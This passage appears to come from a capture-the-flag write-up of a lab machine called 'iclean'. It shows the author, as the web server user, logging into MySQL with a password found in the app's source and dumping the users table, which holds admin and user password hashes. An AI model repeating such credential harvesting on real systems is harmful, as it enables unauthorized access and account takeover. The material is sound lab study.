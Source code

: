 

The rest of the web application isn't very interesting.

#### Database

The password doesn't work for the consuela user, so I'll check out the
DB:



    www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean
    ...[snip]...
    mysql>



There are three tables:



    mysql> show tables;
    +---------------------+
    | Tables_in_capiclean |
    +---------------------+
    | quote_requests      |
    | services            |
    | users               |
    +---------------------+
    3 rows in set (0.00 sec)



The `users` table seems most immediately of interest:



    mysql> describe users;
    +----------+-------------+------+-----+---------+----------------+
    | Field    | Type        | Null | Key | Default | Extra          |
    +----------+-------------+------+-----+---------+----------------+
    | id       | int         | NO   | PRI | NULL    | auto_increment |
    | username | varchar(50) | NO   | UNI | NULL    |                |
    | password | char(64)    | NO   |     | NULL    |                |
    | role_id  | char(32)    | NO   |     | NULL    |                |
    +----------+-------------+------+-----+---------+----------------+
    4 rows in set (0.00 sec)
    mysql> select * from users;
    +----+----------+------------------------------------------------------------------+----------------------------------+
    | id | username | password                                                         | role_id                          |
    +----+----------+------------------------------------------------------------------+----------------------------------+
    |  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
    |  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
    +----+----------+------------------------------------------------------------------+----------------------------------+
    2 rows in set (0.00 sec)
